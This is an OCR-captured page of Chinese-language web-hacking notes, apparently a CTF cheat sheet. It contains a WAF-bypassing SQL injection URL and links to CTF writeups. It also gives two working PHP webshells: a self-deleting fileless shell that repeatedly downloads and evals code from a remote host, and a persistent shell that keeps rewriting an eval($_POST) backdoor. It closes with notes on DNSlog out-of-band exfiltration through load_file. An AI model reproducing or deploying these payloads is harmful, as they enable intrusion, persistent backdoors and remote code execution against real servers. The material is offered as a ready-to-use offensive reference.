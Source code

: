 ```
http://localhost/test/Article.php?type=1&x=/*&id=-2 union all select 1,2,3,4,5 from dual&y=*/
```
让waf把/**/之间的清洗掉再去检测，然后就检测通过了。 其实执行的还是清洗之前的 WAF清洗 是复制原有语句 进行处理 清洗 然后检测 检测完后 使用原始语句进行查询

<br>规则通用性问题
<br>通用型的WAF，一般无法获知后端使用的是哪些WEB容器、什么数据库、以及使用的什么脚本语言




# <center>CTF writeup</center>
### https://github.com/w181496/Web-CTF-Cheatsheet

<a herf='https://mp.weixin.qq.com/s/9rTtLoucMpaWAeniTj27Xg'>红帽杯部分Wp</a><br>
[HITCTF2018-web全题解](https://mp.weixin.qq.com/s/K9XYMAazQ3vwv2L8yFtx1w)

<a herf='https://mp.weixin.qq.com/s/qdjYYdxu7WTv6o8Ru9pyjQ'>强网杯”部分题目Writeup</a><br>
<a herf='https://mp.weixin.qq.com/s/OVf3eUxjSq9N5wGzfg8F-Q'>从sql注入到xslt再到xxe的一道ctf题目</a>
###  shell 记载
####無文件webshell
```
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```
#### webshell駐留記憶體
```
<?php
    ignore_user_abort(true);  // 忽略連線中斷
    set_time_limit(0);  // 設定無執行時間上限
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>
```
### 加密特点
#### sha1 加密都是以数字开头,弱比较可以爆破
#无回显漏洞挖掘(通过DNSlog)
##原理:需要一个可以配置的域名，然后通过代理商设置域名为自己DNS服务器所解析的，DNS在解析时候会留下日志，DNS server会把访问高级域名的日志传给DNS server,然后读取日志，获取信息，ceye 平台会提供一个二级域名，我们可以把我们想获取的信息放在高级域名中。具体如下
###SQL注入类
####通过DNSlog需要使用load_file 函数,所以一般是root权限
下面命令可以查看 load_file()可以读取的磁盘
1.当secure_file_priv为空，就可以读取所有文件
2.当secure_file_priv 为G:/ 表示可以读取G盘的文件
3当secure_file_priv 为null load_file 就不能加载文件
```
show variables like '%secure%';
```